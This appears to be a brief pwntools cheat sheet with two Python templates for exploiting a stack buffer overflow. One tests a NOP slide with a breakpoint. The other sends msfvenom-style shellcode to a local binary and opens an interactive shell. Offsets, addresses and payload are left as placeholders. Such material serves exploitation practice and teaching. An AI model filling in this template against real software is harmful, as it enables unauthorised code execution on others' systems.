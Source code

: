 # Test Shellcode With Breakpoint First

```python
#file name = pwn_<binary name>.py
#Run:
# 	python pwn_<binary name>.py > attack
# 	than input "attack" in to the binary

padding = cyclic(cyclic_find(<eip pattren>))

eip = p32(<Stack Pointer Address + N(offset)>)

nop_slide = "\x90"*<n>

# Before we write our shellcode, we can inject a 
# breakpoint at the end of our NOP slide to make sure 
# the slide works. The breakpoint instruction in hex 
# is "0xcc", and so we can add the following to our 
# code:
shellcode = "\xcc" 

payload = padding + eip + nop_slide + shellcode

print(payload)
```
<br>

# Exploit Binary With Real Shellcode
```python
#file name = pwn_<binary name>.py

padding = cyclic(cyclic_find(<eip pattren>))

eip = p32(<Stack Pointer Address + N(offset)>)

nop_slide = "\x90"*<n>

# Use msfvenom or shellcraft cli tool make shell code
shellcode = <payload>

payload = padding + eip + nop_slide + shellcode

# For a local process, we use the process() function. 
# Else use network connection
proc = process('<./binary name>')

proc.recvline() # See note 1

# send payload after reciving prompt
proc.send(payload)

# Communicate with the shell we have just spawned
proc.interactive()
```
<br>

# Notes:
1. We can receive data from the process, and since the process sends data with a new line, we can use recvline(), rather than recvn().

